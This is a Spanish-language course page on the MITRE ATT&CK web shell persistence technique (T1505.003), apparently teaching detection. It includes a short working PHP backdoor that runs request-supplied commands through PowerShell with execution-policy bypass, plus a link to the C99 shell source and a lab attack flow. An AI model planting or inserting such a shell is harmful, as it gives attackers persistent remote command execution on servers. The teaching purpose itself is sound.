 # Web Shell

La persistencia es el grupo general de técnicas utilizadas para mantener el acceso a un sistema, aplicación o entorno de destino (TAOOO3).

Este curso aborda específicamente una subtécnica ,llamada **T1505.003 Web Shell** .

Una shell web consta de uno o más scripts web cargados en un servidor web comprometido que habilitan funciones adicionales no autorizadas en ese servidor. Normalmente, esta funcionalidad equivale a una puerta trasera y puede habilitar funciones como la inyección remota de comandos, carga/descarga de archivos.

## ¿Como es una web shell?

Web Shells presentes en una variedad de formas y tamaños.

```php
<?php
if(isset($_REQUEST['_jwt'])){
  echo "<pre>";
  $cmd = ($_REQUEST['_jwt']);
  system('powershell.exe -ep bypass -c '.$cmd);
  echo "</pre>";
  die;
}
?>
```

Este archivo PHP básico es el componente del lado del servidor del shell web y permite a un adversario emitir comandos arbitrarios al servidor web en el que está alojado. Cualquier comando recibido por el archivo PHP a través del parámetro "\_jwt" en la URL se ejecutará como parte de un comando de PowerShell con el parámetro agregado de omitir la política de ejecución del sistema local. Al utilizar este shell web, un adversario podría ejecutar cualquier comando que pueda ejecutarse a través de PowerShell en el objetivo, y cualquier comando emitido de esta manera probablemente será ejecutado por el proceso del servidor web y bajo los permisos con los que opera.

**Ejemplos más complejos**

Los Web Shells también pueden ser puertas traseras más complicadas y con todas las funciones. Por ejemplo, la bifurcación del popular [shell web PHP C99](https://github.com/cermmik/C99-WebShell/blob/master/c99shell.php) contiene casi 5000 líneas de código y una variedad de funciones más fáciles de usar.

**¿Dónde se encuentran?**

Los shells web generalmente se colocan en una ubicación donde serán atendidos por el propio servidor web, generalmente dentro de la estructura de directorios debajo de la raíz web. Por ejemplo:

* Webroot típico de IIS: \inetpub\wwwroot o sus subdirectorios.
* Webroot típico de Apache: /var/www o sus subdirectorios.

Es posible que necesite determinar la raíz web para su aplicación de servidor web específica. Estas asignaciones de directorios se pueden personalizar. Para obtener mayor claridad sobre los directorios de shell web viables, consulte la configuración de los servidores web en su entorno y tenga en cuenta específicamente la raíz web, así como cualquier otro directorio que almacene componentes de aplicaciones dinámicas para el servidor web y cualquiera de sus complementos o complementos. .

Conocer los directorios válidos para el contenido web de servicios puede ser un punto especialmente importante para el análisis de detección. Es posible que pueda centrar medidas de detección personalizadas en la raíz web que pueden no ser viables en otros lugares, como la supervisión de eventos de gran volumen, como la creación y eliminación de archivos.

**Los riesgos**

El principal riesgo asociado con un **Web Shell** es el acceso no autorizado persistente y el control de un servidor web o de aplicaciones. Esto también puede ser cierto para cualquier otro dispositivo que tenga una consola web, que incluye una cantidad significativa de dispositivos especializados, incluidos algunos dispositivos de seguridad.

**Un ejemplo de flujo de ataque**

La carga de un Web Shell a un sistema de destino generalmente ocurre después de que se haya obtenido algún tipo de acceso inicial. Para los fines de la práctica de laboratorio de este curso, se hacen las siguientes suposiciones:

* El actor de amenazas ya obtuvo con éxito **el acceso inicial TA0001** al servidor de aplicaciones de destino.
* La forma de acceso obtenida por el actor de amenazas les permite cargar o escribir scripts web en una ubicación en el servidor de destino (u obligar al servidor de destino a descargar esos scripts) que haría que al menos una aplicación en ese servidor sirva ese script de vuelta. al actor de la amenaza.

**Pasos de ataque para este laboratorio**

El siguiente conjunto de pasos de ataque puede representar el uso de estas técnicas. Después de establecer el acceso inicial a través de **la aplicación de destino de explotación T1190** , el adversario puede optar por cargar un Web Shell. El método de carga puede variar y dependerá del tipo de Acceso Inicial obtenido. Por ejemplo, la carga útil de un exploit puede haber sido un comando para descargar un Web Shell desde el repositorio de herramientas del adversario (o incluso un repositorio público como GitHub) y escribir ese archivo en la raíz web del servidor de destino. Una vez que se haya logrado esto, un adversario normalmente intentará verificar el éxito iniciando una conexión al Web Shell, normalmente a través de alguna forma de HTTP/HTTPS.









<mark style="color:red;">**Recursos**</mark>

{% embed url="https://attack.mitre.org/tactics/TA0003/" %}

{% embed url="https://attack.mitre.org/techniques/T1505/003/" %}

{% embed url="https://www.akamai.com/blog/security-research/defeating-webshells-wso-ng" %}
